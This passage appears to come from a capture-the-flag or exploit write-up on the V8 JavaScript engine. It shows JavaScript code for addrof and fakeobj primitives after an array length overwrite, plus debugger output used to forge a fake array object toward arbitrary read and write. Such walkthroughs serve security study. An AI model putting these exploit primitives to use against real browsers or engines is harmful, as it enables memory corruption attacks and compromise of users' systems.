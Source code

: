 ```shell
0x0b01081f4789 <JSArray[1]>
1
65535
V8 version 12.7.224.12
d8>
```

Now that we have overwritten the array size we now have out of bounds access. Using this we construct addrof and fakeobj primitives.

```js
let arr1 = [{}];
let arr2 = [1.1];
.
.
.
function addrof(obj){
  arr1[0]=obj;
  return lower(ftoi(arr2[2]));
}

function fakeobj(addr){
  arr2[2]=itof(addr);
  return arr1[0];
}
```

Now let's turn these into arbitrary read and write. For that we need to construct a fake object whose values are under our control.

Lets take a look at an array object
```js
let temp = [1.1,2.2];
```
```shell
0x045d0808f2a5 <JSArray[2]>
V8 version 12.7.224.12
d8>
```
```shell
pwndbg> x/gx 0x045d0808f2a5-1
0x45d0808f2a4:  0x08000725081cce15
```
We can use that as the map value for our fake object since we want the fake object to be a float array. The next four bytes should have the address of the properties array and the next four is the length.
for example:
```shell
pwndbg> x/gx 0x045d0808f2a5+8-1
0x45d0808f2ac:  0x000000040808f2bd
```
Then we call fakeobj at the start of this fake structure which gives us an object we can totally control.

```js
let temp = [1.1,2.2];
temp[0] = itof(0x08000725081cce15n);
temp[1] =itof(0x1fffe<<32n);

temp_addr = addrof(temp);
fake_object = fakeobj(temp_addr+0x20n);
```

